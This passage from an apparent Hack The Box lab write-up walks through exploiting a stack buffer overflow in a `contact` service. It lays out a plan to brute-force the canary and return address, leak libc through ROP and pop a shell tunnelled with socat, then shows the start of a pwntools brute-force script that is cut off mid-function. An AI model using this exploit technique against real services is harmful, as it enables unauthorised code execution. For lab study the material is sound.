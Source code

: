 {% include image.html image_alt="863c50d7.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/863c50d7.png" %}

What happens next once we stepped into `parse_message` is that RBP and the stack canary is saved onto the stack before invoking `recv` on the socket.

{% include image.html image_alt="84fe1761.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/84fe1761.png" %}

Like I said in the comment of the `parse_message` function, `buf` is 56 bytes in size. We can, however overwrite up to 1024 bytes. :wink:

Let's see this in action in `gdb`.

{% include image.html image_alt="3d61bb5d.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/3d61bb5d.png" %}

### Exploit Development of `contact`

Armed with this insight, we can proceed to develop our exploit. Here's the game plan:

1. Brute-force the stack canary and return address.
2. Use ROP gadgets to leak `write@libc` address in `write@got`.
3. Pop a shell and `dup2` `stdin`, `stdout`, and `stderr` to socket.
4. Transfer statically compiled `socat` to the remote machine
5. Create a tunnel between `127.0.0.1:1337` and `10.10.10.148:31337` with `socat`.

With that in mind, here's the exploit code I've written.

<div class="filename"><span>exploit2.py</span></div>

~~~~python
from pwn import *

def brute(msg, host, port, type=""):

    if (type == "stack"):
        desc = "Stack cookie"
        brute = "\x00"
        length = 8

    elif (type == "base"):
        desc = "Base pointer"
        brute = ""
        length = 6

    elif (type == "retaddr"):
        desc = "Return address"
        brute = "\x62"
        length = 6

    info("%s brute force started..." % desc)
    context.log_level = "error"

    for byte in range(len(brute), length):
        for value in range(256):
            while 1:
                try:
                    io = remote(host, port)
                    break
                except:
                    print("[!] Connection attempt failed. New attempt in 1 second...")
                time.sleep(1)

            io.clean()
            io.send(msg + brute + pack(value, 8))
            response = ""
            try:
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/200
[2]: https://www.hackthebox.eu/home/users/profile/13243
[3]: https://www.hackthebox.eu/